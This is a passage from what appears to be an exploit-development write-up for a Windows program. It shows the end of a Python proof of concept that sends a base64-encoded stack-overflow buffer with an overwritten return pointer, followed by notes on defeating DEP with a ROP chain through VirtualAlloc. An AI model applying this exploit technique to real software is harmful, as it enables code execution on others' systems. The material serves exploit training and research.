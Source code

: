 ```python
    # key
    buffer = b"A" * 88                  # padding
    buffer += b"B" * 8                  # saved return pointer

    # b64 encode it
    key = base64.b64encode(buffer)

    # send exploit
    poc_str = b"100-FE9A1-500-A270-0102-" + key
    s.send(poc_str)
    d = s.recv(1024)

    # trigger exploit
    s.send(b'2')
    d = s.recv(1024)
    d = s.recv(1024)

# start here
main()
```

Now it was time to tackle Data Execution Prevention with a ROP chain.

# Win32 API Addresses

When looking to write ROP chains I would generally look to call one of the following Windows APIs:

- `VirtualAlloc`
- `VirtualProtect`
- `WriteProcessMemory`

I opened the binary in **PE Bear** and noticed that the only API in the Import Address Table was `VirtualAlloc`. The syntax for `VirtualAlloc` is:

```c
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

> [!NOTE]
>
> The Microsoft documentation states that `VirutalAlloc` "Reserves, commits, or **changes** the state of a region of pages in the virtual address space of the calling process. Memory allocated by this function is automatically initialized to zero".
>
> This means I could change the protection on the stack and make it executable without a call to `VirtualProtect`.

**PE Bear** also revealed that the address of `VirtualAlloc` in the IAT is at an offset of `0x20000` from the base address of the module. I confirmed this in **WinDBG**:


[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"
[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"